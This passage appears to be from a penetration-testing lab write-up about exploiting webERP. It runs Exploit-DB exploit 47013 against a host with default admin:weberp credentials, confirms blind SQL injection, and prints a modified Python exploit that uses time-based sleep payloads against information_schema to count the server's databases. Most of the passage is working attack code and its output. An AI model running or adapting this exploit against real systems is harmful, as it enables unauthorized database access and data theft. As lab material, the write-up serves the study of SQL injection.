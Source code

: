 Now we execute the exploit with the credentials `admin:weberp`.

```
kali@kali:~$ python 47013 192.168.100.72 "weberp/" admin weberp 0
Blind sqli is confirmed
```

From the output we see that the target is vulnerable to blind SQLi.

To proceed, we need to find the SQL server version, the number of databases, and each database's name.

We know that webERP works on MySQL version 4.3 or above based on the [Software Requirements](http://www.weberp.org/weberp/ManualContents.php?ViewTopic=Requirements).

To determine the number of databases on the target we need to modify our previous [exploit](https://www.exploit-db.com/exploits/47013) to reflect the following:

```
if __name__ == "__main__":
    #proxies = {'http':'127.0.0.1:8080'}
    proxies = {}
    
    if len(sys.argv) != 6:
        print '(+) usage: %s <target> <path> <login> <password> <order>' % sys.argv[0]
        print '(+) eg: %s 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
        print 'Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
        exit()
    
    ip = sys.argv[1] + "/" + sys.argv[2]
    
    #if don't have php, set Payload to the next one to check this time-based SQLi: YToxOntpOjA7czoyMzoiMCB3aGVyZSBzbGVlcCgxKT0xOy0tIC0iO30=
    #payload = generatePayload("0 where sleep(1)=1;-- -", "0")
    
    i=1
    while True:
        
        payload = generatePayload("0", "-13.37' or IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)="+str(i)+", sleep(1),FALSE) or '2'='1")
        
        # SELECT;
        #get cookies
        cookies = getCookies(ip, sys.argv[5], sys.argv[3], sys.argv[4])
        
        addSupplierID("GARUMPAGE", cookies, proxies)
        
        t1 = time.time()
        runExploit(cookies, "GARUMPAGE", payload, proxies)
        t2 = time.time()
    
        if (t2-t1>1):
            print "number of databases on server: " +str(i)
            break
        else:
            i=i+1
```
